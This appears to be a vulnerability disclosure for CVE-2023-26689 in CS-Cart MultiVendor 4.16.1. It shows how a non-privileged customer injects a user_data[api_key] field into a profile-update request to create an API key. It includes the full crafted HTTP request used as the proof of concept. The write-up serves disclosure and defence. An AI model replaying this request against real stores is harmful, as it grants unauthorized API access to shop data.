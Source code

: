 # CVE-2023-26689 - Insufficient Authorization for API key creation in CS-Cart MultiVendor 4.16.1
We identified a vulnerability in the application's authorization process for API key creation. We discovered that any user can inject the user_data[api_key] parameter in the update profile request with an arbitrary value, thus allowing the creation of a valid API key in the backend database.

## Testing Environment
We utilized the official .zip file obtained from the CS-Cart website to perform a default installation of “CS-Cart MultiVendor 4.16.1” with example data. The installation was conducted on a fully patched Ubuntu Server 22.04 running PHP 8.1.2 and Apache/2.4.52.

## Exploitation
We selected a non-privileged user, typically without the ability to add an API key, for the purpose of this proof of concept.

Looking at the database, it is evident that the user named "customer" does not have an API key configured.

<img src="cs-cart-api1.png">

We went to “My Account” -> “Profile details” to edit our user profile.

<img src="cs-cart-api2.png">

In the request sent to the server we injected the following payload
```
POST /index.php HTTP/1.1
Host: 172.16.85.150
Content-Length: 2680
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.85.150
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary08bFuGfVlIBbEaN8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.85.150/index.php?dispatch=profiles.update
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: sid_customer_179e8=0d1c7a6627a1297152c33400a642a5c4-C
Connection: close

------WebKitFormBoundary08bFuGfVlIBbEaN8
Content-Disposition: form-data; name="selected_section"

general
------WebKitFormBoundary08bFuGfVlIBbEaN8
Content-Disposition: form-data; name="default_cc"


------WebKitFormBoundary08bFuGfVlIBbEaN8
Content-Disposition: form-data; name="profile_id"

2
------WebKitFormBoundary08bFuGfVlIBbEaN8
Content-Disposition: form-data; name="user_data[api_key]"

$2y$10$wJ.6VrKkmOTqwo6Ekxnqj.AMrC9Jpe2ChaNcsMd3a.DPuNKWDl6FG
***TRUNCATED***
```

We checked the database and confirmed the api key was created.

<img src="cs-cart-api3.png">

Yes! We have the ability to use the API now!

<img src="cs-cart-api4.png">


